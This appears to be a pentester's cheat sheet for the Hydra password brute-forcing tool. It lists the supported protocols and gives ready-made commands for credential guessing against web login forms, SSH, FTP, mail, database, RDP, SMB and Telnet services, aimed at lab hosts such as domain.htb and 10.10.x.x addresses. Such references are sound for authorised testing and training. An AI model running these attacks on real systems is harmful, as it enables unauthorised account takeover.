 hydra

Available Hydra Protocols

~~~
Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP,  HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, RDP, Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC and XMPP
~~~

Hydra Examples
 
HTTP-POST-FORM

~~~bash
hydra -L /usr/share/brutex/wordlists/simple-users.txt -P /usr/share/brutex/wordlists/password.lst domain.htb http-post-form "/path/index.php:name=^USER^&password=^PASS^&enter=Sign+in:Login name or password is incorrect" -V
~~~

HTTPS-POST-FORM

~~~bash
hydra -L /usr/share/brutex/wordlists/simple-users.txt -P /usr/share/brutex/wordlists/password.lst domain.htb  https-post-form "/path/index.php:name=^USER^&password=^PASS^&enter=Sign+in:Login name or password is incorrect" -V
~~~

HTTP-GET

~~~bash
hydra -L /usr/share/brutex/wordlists/simple-users.txt -P /usr/share/brutex/wordlists/password.lst sizzle.htb.local http-get /certsrv/
~~~

HTTPS-GET

~~~bash
hydra -L /usr/share/brutex/wordlists/simple-users.txt -P /usr/share/brutex/wordlists/password.lst sizzle.htb.local https-get /certsrv/
~~~

FTP

~~~bash
hydra -l user -P passlist.txt ftp://10.10.134.169
~~~

SSH

~~~bash
hydra -l <username> -P <full path to pass> 10.10.134.169 -t 4 ssh
~~~

IMAP

~~~bash
hydra -l USERNAME -P /path/to/passwords.txt -f <IP> imap -V

hydra -S -v -l USERNAME -P /path/to/passwords.txt -s 993 -f <IP> imap -V
~~~

MYSQL

~~~bash
hydra -L usernames.txt -P pass.txt <IP> mysql
~~~

POP

~~~bash
hydra -l USERNAME -P /path/to/passwords.txt -f <IP> pop3 -V

hydra -S -v -l USERNAME -P /path/to/passwords.txt -s 995 -f <IP> pop3 -V
~~~

POSTGRESQL

~~~bash
hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt <IP> postgres
~~~

RDP

~~~bash
hydra -V -f -L <userslist> -P <passwlist> rdp://<IP>
~~~

SMB

~~~bash
hydra -l Administrator -P words.txt 192.168.1.12 smb -t 1
~~~

SMTP

~~~bash
hydra -l <username> -P /path/to/passwords.txt <IP> smtp -V

hydra -l <username> -P /path/to/passwords.txt -s 587 <IP> -S -v -V
~~~

Telnet

~~~bash
hydra -l root -P passwords.txt [-t 32] <IP> telnet
~~~

